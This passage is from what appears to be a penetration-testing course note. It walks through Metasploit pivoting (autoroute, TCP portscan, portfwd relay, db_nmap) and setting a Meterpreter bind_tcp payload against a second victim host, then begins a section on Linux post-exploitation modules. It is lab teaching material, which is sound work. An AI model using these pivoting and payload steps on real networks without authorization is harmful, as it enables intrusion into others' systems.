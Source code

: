 ```bash
run autoroute -s IP/Subnet
```

After that, we need to find open port on the second target using portscan module:

```bash
background
search portscan
use auxiliary/scanner/portscan/tcp #check open port
```

If we find open ports (f.e. port 80), but we can't see service version. For do this, we need to do port forwarding to execute nmap scan:

```bash
session 1 #restart session 1
portfwd add -l 1234 -p 80 -r IP_Victim-2 #add open port 80 to 1234 localport (local tcp relay)
db_nmap -sS -sV -p 1234 localhost #nmap service vs scan on 1234 port of localhost
```

Searching on browser 127.0.0.1:1234 we can see website, but it's not rendering correctly, because it's not running on the target system.

Then, we can exploit vulnerabilities of target 2 and set bind tcp payload:

```bash
set payload windows/meterpreter/bind_tcp
```

**Bind TCP** refers to a program or service to listen for incoming connections on a specific network address (IP address) and port. It's a way to enable communication between devices over a network.

```bash
set RHOSTS IP_Victim-2 #ip target 2
set LPORT 4433 #different than the previous port, because it's occuped
```

and after exploit, it's a good thing rename session:

```bash
sessions -n victim-2 -i 2
```

## Linux PE Modules <a href="#linux-pe-modules" id="linux-pe-modules"></a>

Linux post exploitation MSF modules can be used to:

* Enumerate system configuration, environment variables, network configuration, user's history
* VM check

> 🔬 Check out the [Linux Post Exploitation with MSF Labs](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/linux-post-msf) with **post-exploitation** techniques for various _Unix services_.

After exploiting the target and starting Meterpreter Shell, we can search and use this module:



